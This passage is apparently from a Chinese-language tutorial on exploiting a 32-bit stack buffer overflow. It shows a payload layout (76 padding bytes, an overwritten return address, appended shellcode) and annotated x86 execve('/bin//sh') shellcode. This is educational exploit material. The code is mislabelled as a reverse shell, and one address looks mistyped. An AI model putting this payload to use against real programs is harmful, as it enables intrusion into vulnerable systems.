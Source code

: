     <img src="1-19.png"
         alt="1-19.png"
         style="100%"/>
    <br>  <!--换行-->
    Picture 1-19 <!--标题-->
    </center>
</div>

因为在执行leave指令后，esp就指向了返回地址的起始地址，因此当前返回地址保存在0xbfffc9c中。

我们可以考虑一种最简单的shellcode插入方法，即将返回地址的下一地址作为shellcode的起始地址。这样做的话，我们的输入就可以这样构造了：

```C++
payload = "A"*76 + 0xbffffc10(返回地址的下一地址) + shellcode
```

因此当ret指令执行后将会返回0xbffffc10地址，然后eip也将指向该地址，而该地址正是我们的shellcode起始地址，因此就能实现shellcode的执行了。

那么shellcode该如何写呢？这里介绍一个最简单的反弹shell的shellcode。

```asm
31 c0             xor eax,eax    # eax = 0
50                push eax
68 2f 2f 73 68    push 0x68732f2f  #将/bin//sh字符串入栈
68 2f 62 69 6e    push 0x6e69622f  
89 e3             mov ebx,esp    # ebx = esp，就是将字符串起始地址保存在ebx中，当作execve函数运行的参数
89 c1             mov ecx,eax    # ecx = 0
89 c2             mov edx,eax    # edx = 0
b0 0b             mov al,0xb     # execve的系统调用号
cd 80             int 80         # 通过execve运行/bin/sh程序
31 c0             xor eax,eax    # eax = 0
40                inc eax        # sys_exit系统调用号
cd 80             int 80         # 退出当前进程
```
